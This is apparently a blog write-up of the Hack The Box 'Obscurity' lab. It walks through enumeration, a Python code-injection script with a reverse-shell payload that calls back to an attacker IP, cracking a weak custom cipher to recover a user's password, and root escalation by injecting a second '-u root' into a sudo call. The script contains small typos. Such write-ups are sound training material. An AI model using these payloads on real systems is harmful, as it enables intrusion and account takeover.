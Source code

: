 ```yaml
---
title: "Obscurity Hackthebox"
date: 2021-03-10T12:48:05+03:00
draft: false
---
```


![](https://i.imgur.com/OcukgEq.png)

# Enumeration

I started with a simple nmap to get a basic overview:
```bash
nmap -sC -sV -oA nmap/obscurity 10.10.10.168
```

![](https://i.imgur.com/UtwqgOP.png)

As you can see ports `8080` (**http**), `22`(**ssh**) and `9000` are open.

# Website

Once on the web page we are prompted with this:

![](https://i.imgur.com/DyVcVsf.png)

If you scroll a little bit more we find something peculiar:

![](https://i.imgur.com/nx5y6OA.png)

So we need to find the `SuperSecureServer.py` file in order to get the backend code of this web app. For that I used [ffuf](https://github.com/ffuf/ffuf):

![](https://i.imgur.com/SZfkC5u.png)

After letting `ffuf` to do it's job for a while, we are prompted with the desired folder: `develop`. So, the directory was not so secret afterall because we can access the file at `/develop/SuperSecureServer.py`:

![](https://i.imgur.com/2PDFkRP.png)

Well, now it's time to look for a **RCE** or something that we can exploit. This task is not so complicated since the following line looks like this:

![](https://i.imgur.com/vhBYHsX.png)

So we can execute code if we format correctly the `path` variable. Therefore, I came up with this little python script:

![](https://i.imgur.com/Mxg9BRw.png)


```python
import requests

proxies = {'http': 'http://127.0.0.1:8080', 'httpss': 'https://127.0.0.1:8080'}
shell   = '''import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.161",9876));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'''

payload = "'\n"
payload += shell
payload += "\nape='"

res = requets.get(url + payload)
print(res.headers)
print(res.text)
```

When the server processes this, the `info` variable will look like this:

> output = 'Document'
> <reverse_shell>
> ape=''

This is valid python code. As a result, we get back a shell:

![](https://i.imgur.com/QootNLC.png)

---

# User

If we take a look at the folder where the user flag is we find these interesting files:
![](https://i.imgur.com/ECmODcN.png)

We have just 4 files we care about:
1. `SuperSecureCrypt.py` - Python script to encrypt files
2. `check.txt` - Clear text of `out.txt`
3. `out.txt` - Ciphertext of clear text `check.txt`
4. `passwordreminder.txt` - Encrypted password of the robert user

By taking a look at how the encryption/decryption algorithm works, we find a funny thing. That is, we can obtain the password used in an encrypted text if we know the clear text:

![](https://i.imgur.com/M03zheF.png)

Thus, in order to find the password used to encrypt the `out.txt` file we just need to execute the following:

![](https://i.imgur.com/rajzLAI.png)

The password used to encrypt the text was: **alexandrovich**

Now that we know the password, we can decrypt the `passwordreminder.txt`

```bash
python3 SuperSecretCrypt.py -k "alexandrovich" -i passwordreminder.txt -o /tmp/pass -d
```

The password for robert being **SecThruObsFTW**. Login with *SSH* and cat `user.txt`
![](https://i.imgur.com/hvTjk0v.png)

---

# Root

Now that we have access to the robert user, we can look at a file we ommited on our journey of getting the user flag. That file is `BetterSSH.py`

![](https://i.imgur.com/wsIffJq.png)

The first part of the script is just authenticating the user we provide with the password. What is more interesting is the second part:

![](https://i.imgur.com/DmMQfyp.png)

The 4th line is of interest because it executes commands with `sudo -u` and our input, so we can do something like: `sudo -u robert -u root whoami`, which in theory should display **root**.

First I tried to execute the script with sudo:

![](https://i.imgur.com/Grny92t.png)

Ok.. so we are not allowed to run the script. At this point I decided to run [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS), which gave me this:

![](https://i.imgur.com/rHySzW3.png)

Now it all makes sense we need to execute:
```bash
sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```

And then input `-u root cat /root/root.txt`

![](https://i.imgur.com/kizLVnn.png)
